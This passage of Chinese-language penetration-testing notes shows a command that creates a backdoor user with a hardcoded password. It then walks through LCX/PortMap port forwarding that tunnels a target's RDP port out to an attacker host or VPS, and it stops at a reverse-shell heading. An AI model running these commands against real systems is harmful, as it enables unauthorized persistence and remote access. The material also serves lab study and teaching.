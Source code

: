    ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```
### 端口转发

#### LCX 端口转发

##### LCX 介绍

> LCX 是一款端口转发工具，分 Windows 版和 Linux 版，Linux 版为 PortMap。

> LCX 有端口映射和端口转发两大功能。例如当目标的 3389 端口只对内开放而不对外开放时，可以使用端口映射将 3389 端口映射到目标的其他端口使用； 当目标处于内网或者目标配置的策略只允许访问固定的某一端口时，也可以通过端口转发突破限制。

Windows 版本 LCX 用法：

> 端口转发：
> `Lcx -listen <监听slave请求的端口> <等待连接的端口>`
> `Lcx -slave <攻击机IP> <监听端口> <目标IP> <目标端口>`
>
> 端口映射：
> `Lcx -tran <等待连接的端口> <目标IP> <目标端口>`

Linux 版本 PortMap 用法：

> `Useage: ./portmap -m method [h1 host1] -p1 port1 [h2 host2] -p2 port2 [-v] [-log filename]`
> `-v: version`
> `-h1: host1`
> `-h2: host2`
> `-p1: port1`
> `-p2: port2`
> `-log: log the data`
> `-m: the action method for this tool`
> `1: listen on port1 and connect to host2:port2`
> `2: listen on port1 and port2`
> `3: connect to host1:port1 and host2:port2`

##### 场景复现（Windows 内网）

- 实验环境
    - 攻击机： `192.168.xxx.aaa`
    - 靶机： `192.168.xxx.bbb`

- 场景复现
    1. 在攻击机上监听本地 `53` 端口并转发到本地 `1111` 端口
        `lcx -listen 53 1111`
    2. 在靶机上将 `3389` 端口转发到攻击机的 `53` 端口
        `lcx -slave 192.168.xxx.aaa 53 127.0.0.1 3389`
    3. 在攻击机上连接远程桌面，地址为： `127.0.0.1: 1111`

##### 场景复现（Linux 公网）

- 实验环境
    - 攻击机：`192.168.xxx.aaa`
    - 靶机：`192.168.xxx.bbb`
    - 攻击机 VPS：xxx.xxx.xxx.xxx

- 场景复现
    1. 在靶机上将 `3389` 端口转发到攻击机 VPS 的 `53` 端口
        `lcx -slave xxx.xxx.xxx.xxx 53 127.0.0.0 3389`
    2. 在 VPS 上监听 `53` 端口并转发到 `1111` 端口
        `./portmap -m 2 p1 53 -p2 1111`
    3. 在攻击机上连接 `xxx.xxx.xxx.xxx:1111`

### 反弹 Shell

   ```